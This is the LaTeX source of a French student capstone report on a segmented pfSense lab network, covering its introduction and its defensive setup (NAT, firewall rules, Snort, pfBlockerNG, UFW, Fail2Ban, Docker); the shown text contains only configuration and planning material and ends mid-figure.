% !TeX program = lualatex
% !TeX encoding = UTF-8
% !TeX spellcheck = fr_FR

\documentclass[12pt,a4paper,openany]{report}

% ==============================================================================
% 1. MOTEUR & LANGUE
% ==============================================================================
\usepackage{fontspec}
\usepackage{polyglossia}
\setmainlanguage{french}
\setotherlanguage{english}

% ==============================================================================
% 2. MISE EN PAGE & STRUCTURE
% ==============================================================================
\usepackage{geometry}
\geometry{left=2.5cm, right=2.5cm, top=3cm, bottom=3cm, headheight=30pt}
\usepackage{fancyhdr}
\usepackage{titlesec}
\usepackage{tocloft}
\usepackage{titletoc}

% ==============================================================================
% 3. TYPOGRAPHIE & TEXTE
% ==============================================================================
\usepackage{setspace}
\usepackage{xcolor}
\usepackage{csquotes}
\usepackage{enumitem}
\usepackage{indentfirst}
\usepackage{hyphenat}
\usepackage[skins,breakable]{tcolorbox}

% ==============================================================================
% 4. MATHÉMATIQUES & SYMBOLES
% ==============================================================================
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{amsfonts}
\usepackage{mathtools}
\usepackage{bm}

% ==============================================================================
% 5. GRAPHISMES & DIAGRAMMES
% ==============================================================================
\usepackage{graphicx}
\usepackage{tikz}
\usetikzlibrary{positioning, shapes.geometric, arrows.meta, calc}
\usepackage{pgfplots}
\pgfplotsset{compat=1.18}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{float}

% ==============================================================================
% 6. TABLEAUX
% ==============================================================================
\usepackage{booktabs}
\usepackage{longtable}
\usepackage{array}
\usepackage{multirow}
\usepackage{tabularx}
\usepackage{colortbl}

% ==============================================================================
% 7. CODE SOURCE & LISTINGS
% ==============================================================================
\usepackage{listings}
\usepackage{lstautogobble}

% ==============================================================================
% 8. LIENS & RÉFÉRENCES
% ==============================================================================
\usepackage{hyperref}
\usepackage{bookmark}
\usepackage{url}
\usepackage{hypcap}

% ==============================================================================
% 9. UTILITAIRES DIVERS
% ==============================================================================
\usepackage{pdfpages}
\usepackage{imakeidx}
\usepackage{lastpage}
\usepackage{lipsum}

% ==============================================================================
% POLICES ET TYPOGRAPHIE
% ==============================================================================
\setmainfont{Latin Modern Roman}
\setsansfont{Latin Modern Sans}
\setmonofont{Latin Modern Mono}

% ==============================================================================
% COULEURS BURGUNDY (Palette Principale)
% ==============================================================================
\definecolor{primary}{RGB}{128,0,32}        % Deep Burgundy
\definecolor{secondary}{RGB}{220,20,60}     % Crimson
\definecolor{accent}{RGB}{220,20,60}        % Crimson
\definecolor{codebg}{RGB}{248,248,248}      % Gris Très Clair pour code
\definecolor{codekeyword}{RGB}{0,0,180}
\definecolor{codestring}{RGB}{163,21,21}
\definecolor{codecomment}{RGB}{0,128,0}
\definecolor{footergray}{RGB}{128,128,128}
\definecolor{logbgcolor}{RGB}{250,250,250}
% Table colors - Burgundy
\definecolor{tableheadbg}{RGB}{128,0,32}
\definecolor{tableheadfg}{RGB}{255,255,255}
\definecolor{tablerowalt}{RGB}{245,230,235}
\definecolor{tableborder}{RGB}{160,0,40}
% Severity colors
\definecolor{criticalred}{RGB}{200,0,0}
\definecolor{warningorange}{RGB}{200,100,0}

% ==============================================================================
% EN-TÊTES ET PIEDS DE PAGE
% ==============================================================================
\pagestyle{fancy}
\fancyhf{}

\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\headrule}{\hbox to\headwidth{%
		\color{primary}\leaders\hrule height \headrulewidth\hfill}}
\renewcommand{\footrulewidth}{0.4pt}
\renewcommand{\footrule}{\hbox to\headwidth{%
		\color{primary}\leaders\hrule height \footrulewidth\hfill}}

\fancyhead[L]{\textcolor{primary}{\small\bfseries Sécurité Offensive et Défensive \textbullet\ PFE}}
\fancyhead[R]{\textcolor{primary}{\small\bfseries ESTK \textbullet\ IDRS \textbullet\ \thepage}}

\newif\ifshowpagenumbers
\showpagenumberstrue

\fancyfoot[C]{\textcolor{footergray}{\small%
		\ifshowpagenumbers%
		Page \thepage\ sur \pageref{LastPage}%
		\fi%
}}

\fancypagestyle{plain}{
	\fancyhf{}
	\renewcommand{\headrulewidth}{0pt}
	\renewcommand{\footrulewidth}{0.4pt}
	\renewcommand{\footrule}{\hbox to\headwidth{%
			\color{primary}\leaders\hrule height \footrulewidth\hfill}}
	\fancyfoot[C]{\textcolor{footergray}{\small%
			\ifshowpagenumbers%
			Page \thepage\ sur \pageref{LastPage}%
			\fi%
	}}
}

\newcommand{\hidepagenumbers}{\showpagenumbersfalse\pagestyle{empty}}
\newcommand{\showpagenumbers}{\showpagenumberstrue\pagestyle{fancy}}

% ==============================================================================
% FORMATAGE DES TITRES
% ==============================================================================
\titleformat{\chapter}[display]
{\normalfont\huge\bfseries\color{primary}}{\chaptertitlename\ \thechapter}{20pt}{\Huge}
\titleformat{\section}
{\normalfont\Large\bfseries\color{primary}}{\thesection}{1em}{}
\titleformat{\subsection}
{\normalfont\large\bfseries\color{secondary}}{\thesubsection}{1em}{}

% ==============================================================================
% CONFIGURATION LISTINGS
% ==============================================================================
\lstset{
	basicstyle=\ttfamily\small,
	backgroundcolor=\color{codebg},
	keywordstyle=\color{codekeyword}\bfseries,
	stringstyle=\color{codestring},
	commentstyle=\color{codecomment}\itshape,
	frame=single,
	rulecolor=\color{primary},
	breaklines=true,
	breakatwhitespace=true,
	showstringspaces=false,
	captionpos=b,
	numbers=left,
	numberstyle=\tiny\color{gray},
	numbersep=5pt,
	tabsize=4,
	extendedchars=true,
	inputencoding=utf8,
	autogobble=true
}

\lstdefinestyle{logstyle}{
	basicstyle=\ttfamily\footnotesize,
	backgroundcolor=\color{logbgcolor},
	frame=none,
	breaklines=true,
	showstringspaces=false,
	captionpos=b,
	autogobble=true
}

% ==============================================================================
% COMMANDE TABLE STYLISÉE
% ==============================================================================
\newcommand{\tableheadcolor}{\rowcolor{tableheadbg}}

% ==============================================================================
% MÉTADONNÉES HYPERREF
% ==============================================================================
\hypersetup{
	colorlinks=true,
	linkcolor=primary,
	filecolor=magenta,
	urlcolor=secondary,
	pdftitle={Sécurité Offensive et Défensive dans une Infrastructure Segmentée - Rapport PFE},
	pdfauthor={Yasser Bella, Oussama El Habti},
	pdfsubject={Cybersécurité},
	pdfkeywords={pfSense, Nmap, Metasploit, Snort, DVWA, OWASP, PFE, ESTK, IDRS}
}

% ==============================================================================
% INTERLIGNE
% ==============================================================================
\onehalfspacing

% ==============================================================================
% DÉBUT DU DOCUMENT
% ==============================================================================
\begin{document}
\sloppy

% ------------------------------------------------------------------------------
% PAGE DE TITRE
% ------------------------------------------------------------------------------
\begin{titlepage}
	\thispagestyle{empty}

	\noindent
	\colorbox{primary}{%
		\parbox{\dimexpr\textwidth-2\fboxsep}{%
			\vspace{0.6cm}
			\centering
			{\large\bfseries\textcolor{white}{Cyberdéfense et Sécurité Offensive --- ESTK \textbullet\ IDRS}}\\[0.6cm]
		}%
	}

	\vspace{1.5cm}
	\centering

	{\normalsize\bfseries\color{black!40}\MakeUppercase{Rapport de Fin d'Études --- Projet de Fin de Formation}}

	\vspace{0.8cm}

	{\Huge\bfseries\color{primary}
		Sécurité Offensive et Défensive\\[0.3cm]
		dans une Infrastructure Segmentée\par
	}

	\vspace{0.5cm}

	{\color{accent}\rule{9cm}{2pt}\par}

	\vspace{0.5cm}

	{\large\color{black!60}
		Rapport PFE Complet --- Toutes Phases\\[0.2cm]
		De l'Infrastructure Défensive à l'Exploitation Web Avancée\par
	}

	\vspace{2cm}

	{\large
		\renewcommand{\arraystretch}{1.5}
		\begin{tabular}{c}
			\textbf{\color{primary}Réalisé par :}\\[0.3cm]
			Yasser \textsc{Bella} \\
			Oussama \textsc{El Habti} \\[0.6cm]

			\textbf{\color{primary}Établissement :} ESTK \\[0.3cm]
			\textbf{\color{primary}Filière :} IDRS --- Infrastructure Digitale Réseau et Sécurité \\[0.3cm]
			\textbf{\color{primary}Année Universitaire :} 2024 -- 2025 \\
		\end{tabular}
	}

	\vfill

	\noindent
	\colorbox{primary}{%
		\parbox{\dimexpr\textwidth-2\fboxsep}{%
			\vspace{0.35cm}
			\centering
			{\small\textcolor{white}{%
					pfSense 2.8.0
					\quad\textbullet\quad Snort IDS/IPS
					\quad\textbullet\quad Metasploit Framework}}\\[0.2cm]
			{\small\textcolor{white}{%
					Nmap 7.94SVN
					\quad\textbullet\quad DVWA / OWASP Top 10
					\quad\textbullet\quad VMware Workstation 17}}\\[0.35cm]
		}%
	}%
\end{titlepage}

% ------------------------------------------------------------------------------
% PAGES LIMINAIRES
% ------------------------------------------------------------------------------
\hidepagenumbers
\tableofcontents
\newpage
\listoffigures
\listoftables
\newpage

\cleardoublepage
\showpagenumbers
\pagenumbering{arabic}
\setcounter{page}{1}

% ==============================================================================
% CHAPITRE 0 : INTRODUCTION GÉNÉRALE
% ==============================================================================
\setcounter{chapter}{-1}
\chapter{Introduction Générale}
\label{chap:introduction}

\section{Contexte du Projet}

Ce rapport de Projet de Fin d'Études (PFE) présente une étude complète de la sécurité offensive et défensive dans une infrastructure réseau segmentée, réalisée dans le cadre de la filière IDRS (Infrastructure Digitale Réseau et Sécurité) à l'ESTK.

Dans un contexte où les cyberattaques deviennent de plus en plus sophistiquées, les organisations doivent adopter une approche duale : comprendre les mécanismes d'attaque pour mieux construire les défenses. Ce projet incarne précisément cette philosophie en suivant un cycle complet : \textbf{construire la défense, mesurer la surface d'attaque, exploiter les vulnérabilités, détecter les attaques, et tester les applications web}.

\section{Questions de Recherche}

Ce projet répond aux questions fondamentales suivantes :
\begin{enumerate}[leftmargin=*]
	\item \textbf{Efficacité de la segmentation :} Une architecture WAN/DMZ/LAN correctement configurée peut-elle limiter la propagation d'une attaque ?
	\item \textbf{Réductibilité de la surface d'attaque :} Dans quelle mesure le NAT/Port Forwarding réduit-il l'exposition aux menaces ?
	\item \textbf{Exploitabilité des vulnérabilités :} Les services identifiés comme vulnérables lors de la reconnaissance sont-ils réellement exploitables en pratique ?
	\item \textbf{Valeur ajoutée de l'IDS :} Qu'apporte Snort que le pare-feu seul ne peut détecter ?
	\item \textbf{Périmètre web :} Les applications web constituant la surface exposée, quelles sont les vulnérabilités OWASP les plus critiques ?
\end{enumerate}

\section{Architecture Pédagogique : L'Approche en 5 Phases}

Ce rapport documente cinq phases interconnectées qui reproduisent un engagement de sécurité réaliste :

\begin{table}[H]
	\centering
	\renewcommand{\arraystretch}{1.5}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{>{\centering\arraybackslash}p{1.5cm} p{3.5cm} p{7.5cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Phase}} &
		\textcolor{tableheadfg}{\textbf{Titre}} &
		\textcolor{tableheadfg}{\textbf{Objectifs}} \\
		\hline
		\rowcolor{tablerowalt}
		\textbf{1} & Infrastructure Défensive & Déployer pfSense, segmenter le réseau (WAN/DMZ/LAN), configurer pare-feu, Snort, pfBlockerNG \\
		\textbf{2} & Reconnaissance Active & Exposer un service Telnet, configurer NAT, cartographier la surface d'attaque avec Nmap \\
		\rowcolor{tablerowalt}
		\textbf{3} & Exploitation \& Post-exploitation & Compromettre la DMZ via Telnet, établir un pivot Meterpreter, effectuer un mouvement latéral \\
		\textbf{4} & Détection Active (IDS) & Déployer Snort sur pfSense, détecter les attaques WAN et le mouvement latéral LAN \\
		\rowcolor{tablerowalt}
		\textbf{5} & Tests Web (DVWA) & Exploiter les vulnérabilités OWASP Top 10 sur une application web intentionnellement vulnérable \\
		\hline
	\end{tabular}
	\caption{Architecture Pédagogique des 5 Phases du PFE}
	\label{tab:phases}
\end{table}

\section{Infrastructure Commune}

Toutes les phases partagent la même infrastructure virtualisée sous VMware Workstation 17 Pro :

\begin{itemize}
	\item \textbf{pfSense 2.8.0} : Pare-feu/routeur multi-zones (WAN: 192.168.100.6, DMZ: 192.168.10.1, LAN: 192.168.20.1)
	\item \textbf{Ubuntu Server 25.04} : Serveur DMZ hébergeant Telnet, DVWA, Samba via Docker (IP: 192.168.10.100)
	\item \textbf{Parrot Security OS} : Machine attaquante en zone WAN (IP: 192.168.100.150)
	\item \textbf{Windows XP SP3} : Cible secondaire en zone LAN (IP: 192.168.20.50)
\end{itemize}

\section{Organisation du Document}

Ce rapport est structuré en six chapitres : le Chapitre~\ref{chap:infrastructure} présente l'infrastructure défensive, le Chapitre~\ref{chap:reconnaissance} couvre la reconnaissance active, le Chapitre~\ref{chap:exploitation} détaille l'exploitation et le pivoting, le Chapitre~\ref{chap:snort} analyse la détection IDS, le Chapitre~\ref{chap:dvwa} présente les tests d'applications web, et le Chapitre~\ref{chap:synthesis} propose une analyse intégrée et des recommandations.

% ==============================================================================
% CHAPITRE 1 : INFRASTRUCTURE DÉFENSIVE
% ==============================================================================
\chapter{Infrastructure Défensive}
\label{chap:infrastructure}

\section{Architecture Réseau et Topologie}

L'infrastructure est constituée de plusieurs machines virtuelles interconnectées via des réseaux internes VMware (LAN Segments). Cette segmentation logique isole les zones de confiance différentes.

\begin{table}[ht]
	\centering
	\renewcommand{\arraystretch}{1.4}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{>{\bfseries}p{3.5cm} p{3.2cm} p{2.8cm} p{3.2cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Machine}} &
		\textcolor{tableheadfg}{\textbf{Rôle}} &
		\textcolor{tableheadfg}{\textbf{Zone}} &
		\textcolor{tableheadfg}{\textbf{OS}} \\
		\hline
		\rowcolor{tablerowalt}
		pfSense-Firewall & Routeur / Pare-feu & WAN/DMZ/LAN & pfSense 2.8.0 \\
		ubuntuserver & Cible DMZ (Services) & DMZ & Ubuntu 25.04 \\
		\rowcolor{tablerowalt}
		Parrot Security & Attaquant / Testeur & WAN & Parrot Security OS \\
		Windows Client & Poste de Travail & LAN & Windows XP Pro SP3 \\
		\hline
	\end{tabular}
	\caption{Inventaire des Machines Virtuelles}
	\label{tab:vm-inventory}
\end{table}

\subsection{Segmentation Réseau}

Le réseau est divisé en trois zones distinctes :

\begin{description}
	\item[Zone WAN (192.168.100.0/24)] Interface externe simulant Internet. Zone non fiable --- tout trafic entrant bloqué par défaut sauf exceptions NAT explicites.
	\item[Zone DMZ (192.168.10.0/24)] Zone tampon pour services exposés. Passerelle pfSense : 192.168.10.1. Isolation stricte du LAN. Segment VMware : \texttt{DMZ\_SEG}.
	\item[Zone LAN (192.168.20.0/24)] Réseau interne sécurisé, ressources critiques. Passerelle pfSense : 192.168.20.1. Zone de haute confiance. Segment VMware : \texttt{LAN\_SEG}.
\end{description}

\subsection{Plan d'Adressage IP}

\begin{table}[ht]
	\centering
	\small
	\renewcommand{\arraystretch}{1.5}
	\begin{tabular}{p{4.5cm} >{\centering\arraybackslash}p{3.5cm} >{\centering\arraybackslash}p{3.5cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Machine}} &
		\textcolor{tableheadfg}{\textbf{Adresse IP}} &
		\textcolor{tableheadfg}{\textbf{Passerelle}} \\
		\hline
		\rowcolor{tablerowalt}
		pfSense (WAN) & 192.168.100.6 (DHCP) & 192.168.100.2 \\
		pfSense (DMZ) & 192.168.10.1 & N/A \\
		\rowcolor{tablerowalt}
		pfSense (INTERNAL\_LAN) & 192.168.20.1 & N/A \\
		Ubuntu DMZ & 192.168.10.100 & 192.168.10.1 \\
		\rowcolor{tablerowalt}
		Windows Client & 192.168.20.50 (DHCP) & 192.168.20.1 \\
		Parrot Security & 192.168.100.150 & 192.168.100.2 \\
		\hline
	\end{tabular}
	\caption{Plan d'Adressage IP Détaillé}
	\label{tab:ip-plan}
\end{table}

\section{Configuration pfSense}

\subsection{Installation et Initialisation}

pfSense a été installé depuis l'image ISO AMD64. Lors du premier boot, les interfaces ont été assignées via la console :

\begin{lstlisting}[caption=Assignation des Interfaces en Console]
	WAN interface        : em0
	LAN interface        : em1 (Renommée DMZ)
	Optional 1 interface : em2 (Renommée INTERNAL_LAN)
\end{lstlisting}

\subsection{Configuration des Interfaces}

\begin{lstlisting}[caption=Configuration IP DMZ (em1)]
	IPv4 Address : 192.168.10.1
	Subnet Mask  : 24 (255.255.255.0)
	DHCP Server  : Enabled
	Range        : 192.168.10.10 to 192.168.10.50
\end{lstlisting}

\begin{lstlisting}[caption=Configuration IP LAN (em2)]
	IPv4 Address : 192.168.20.1
	Subnet Mask  : 24 (255.255.255.0)
	DHCP Server  : Enabled
	Range        : 192.168.20.10 to 192.168.20.50
\end{lstlisting}

\subsection{Règles de Port Forwarding (NAT)}

Pour exposer les services de la DMZ au WAN, des règles NAT ont été configurées :

\begin{table}[ht]
	\centering
	\renewcommand{\arraystretch}{1.4}
	\begin{tabular}{>{\centering\arraybackslash}p{2.2cm} >{\centering\arraybackslash}p{1.5cm} p{3.2cm} >{\centering\arraybackslash}p{2.2cm} p{2.4cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Port WAN}} &
		\textcolor{tableheadfg}{\textbf{Proto}} &
		\textcolor{tableheadfg}{\textbf{Target IP}} &
		\textcolor{tableheadfg}{\textbf{Target Port}} &
		\textcolor{tableheadfg}{\textbf{Service}} \\
		\hline
		\rowcolor{tablerowalt}
		23  & TCP & 192.168.10.100 & 23  & Telnet \\
		80  & TCP & 192.168.10.100 & 80  & HTTP (DVWA) \\
		\rowcolor{tablerowalt}
		139 & TCP & 192.168.10.100 & 139 & NetBIOS \\
		445 & TCP & 192.168.10.100 & 445 & SMB \\
		\hline
	\end{tabular}
	\caption{Règles de Port Forwarding Configurées}
	\label{tab:nat-rules}
\end{table}

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/nat-rules.png}{
		
\includegraphics[width=0.9\textwidth]{screenshots/nat-rules.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
		\caption*{\textbf{Référence :} screenshots/nat-rules.png}
	}
	\caption{Configuration des règles NAT Port Forward sur pfSense}
	\label{fig:nat-screenshot}
\end{figure}

\subsection{Règles de Pare-Feu WAN}

\begin{lstlisting}[caption=Règles de Pare-Feu WAN (Extrait)]
	Pass | TCP | Any | WAN address | 23  | Allow WAN to DMZ Telnet
	Pass | TCP | Any | WAN address | 80  | Allow WAN to DMZ Web
	Pass | TCP | Any | WAN address | 139 | Allow WAN to DMZ Samba
	Pass | TCP | Any | WAN address | 445 | Allow WAN to DMZ SMB
\end{lstlisting}

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/firewall-rules.png}{
		
\includegraphics[width=0.9\textwidth]{screenshots/firewall-rules.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
		\caption*{\textbf{Référence :} screenshots/firewall-rules.png}
	}
	\caption{Règles de Pare-Feu WAN associées au NAT}
	\label{fig:firewall-screenshot}
\end{figure}

\subsection{Déblocage des Réseaux Privés (Laboratoire)}

\begin{tcolorbox}[colback=accent!5!white, colframe=accent, title=\textbf{Configuration Laboratoire Uniquement}]
	L'option \texttt{Block private networks and loopback addresses} sur WAN a été \textbf{désactivée} pour permettre à la machine attaquante (192.168.100.150) d'atteindre pfSense. \textbf{Ne JAMAIS faire cela en production.}
\end{tcolorbox}

\section{Sécurité Avancée : pfBlockerNG et Snort}

\subsection{pfBlockerNG}

pfBlockerNG a été installé pour fournir une couche basée sur le renseignement sur les menaces :
\begin{itemize}
	\item \textbf{IPv4 Blocklists :} Activation des listes \textit{pfB\_PRI1\_v4} (1\,458 IPs bloquées).
	\item \textbf{DNSBL :} Activé pour bloquer les domaines malveillants au niveau DNS.
	\item \textbf{Suppression List :} 192.168.100.150/32 (machine attaquante du lab).
\end{itemize}

\subsection{Snort (Détection d'Intrusion)}

\begin{lstlisting}[caption=Exemple d'alerte Snort lors des scans Nmap]
	[Priority: 3] ET SCAN Suspicious inbound to mySQL port 3306
	Source      : 192.168.100.150:58890
	Destination : 192.168.100.6:3306
	Action      : Alert Only (Mode IDS)
\end{lstlisting}

\section{Sécurité au Niveau de l'Hôte Ubuntu DMZ}

\subsection{UFW : Pare-feu Applicatif}

\begin{lstlisting}[caption=Configuration UFW sur Ubuntu DMZ]
	$ sudo ufw status numbered
	Status: active

	[ 1] 22/tcp    ALLOW IN    Anywhere
	[ 2] 23/tcp    ALLOW IN    Anywhere
	[ 3] 80/tcp    ALLOW IN    Anywhere
	[ 4] 139/tcp   ALLOW IN    Anywhere
	[ 5] 445/tcp   ALLOW IN    Anywhere
\end{lstlisting}

\subsection{Fail2Ban : Protection contre le Brute-Force}

\begin{lstlisting}[caption=Configuration Fail2Ban (jail.local)]
	[sshd]
	enabled  = true
	port     = ssh
	filter   = sshd
	logpath  = /var/log/auth.log
	maxretry = 3
	bantime  = 600
	findtime = 600
\end{lstlisting}

\subsection{Conteneurisation des Services}

\begin{lstlisting}[caption=Conteneurs Actifs sur Ubuntu DMZ]
	$ sudo docker ps
	CONTAINER ID   IMAGE                    STATUS      PORTS
	5b1166370a66   vulnerables/web-dvwa     Up 6h       0.0.0.0:80->80/tcp
	5944e93265e3   dperson/samba            Up 6h       0.0.0.0:139->139/tcp
	                                                     0.0.0.0:445->445/tcp
\end{lstlisting}

\section{Analyse des Journaux et Validation}

Les journaux pfSense (\texttt{Status > System Logs > Firewall}) ont été exportés et analysés pour valider le comportement des règles.

\begin{table}[ht]
	\centering
	\small
	\renewcommand{\arraystretch}{1.4}
	\begin{tabular}{p{2.4cm} p{4.2cm} p{3.6cm} >{\centering\arraybackslash}p{1.8cm} >{\centering\arraybackslash}p{1.8cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Timestamp}} &
		\textcolor{tableheadfg}{\textbf{Source}} &
		\textcolor{tableheadfg}{\textbf{Destination}} &
		\textcolor{tableheadfg}{\textbf{Rule}} &
		\textcolor{tableheadfg}{\textbf{Action}} \\
		\hline
		\rowcolor{tablerowalt}
		22:13:57 & 192.168.100.150:38056 & 192.168.10.100:80  & (12004) & \textcolor{green!50!black}{\textbf{ALLOW}} \\
		22:15:21 & 192.168.100.150:44838 & 192.168.10.100:139 & (12004) & \textcolor{green!50!black}{\textbf{ALLOW}} \\
		\rowcolor{tablerowalt}
		22:33:21 & 192.168.100.150:38484 & 192.168.10.100:80  & Default deny & \textcolor{accent}{\textbf{BLOCK}} \\
		\hline
	\end{tabular}
	\caption{Logs Pare-Feu : Trafic Autorisé et Bloqué}
	\label{tab:logs-firewall}
\end{table}

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/firewall-logs.png}{
		
\includegraphics[width=0.9\textwidth]{screenshots/firewall-logs.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
